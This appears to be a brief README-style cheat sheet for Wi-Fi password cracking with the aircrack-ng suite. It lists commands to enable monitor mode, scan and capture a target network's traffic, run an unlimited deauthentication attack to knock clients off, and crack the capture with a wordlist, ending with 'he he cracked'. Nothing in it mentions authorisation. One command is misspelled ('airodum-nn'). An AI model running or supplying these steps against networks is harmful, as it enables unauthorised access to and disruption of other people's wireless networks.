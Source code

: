 # WIFI HAKING COMMANDS

### TO check network interfaces
```
iwconfig
```

### TO enable monitor mode if not enabled
```
sudo airmon-ng start wlan0
```

### For start scanning
```
sudo airodump-ng wlan0
```

### For scanning specific wifi network 
```
sudo airodum-nn --bssid (your bssid) --channel (your channel) --write filename wlan0
```

### For Deauthentication attack
```
sudo aireplay-ng --deauth 0 -a (your bssid) wlan0
```

### To crack cap file
```
sudo aircrack-ng -w (wordlist path) capfile name 
```

he he cracked
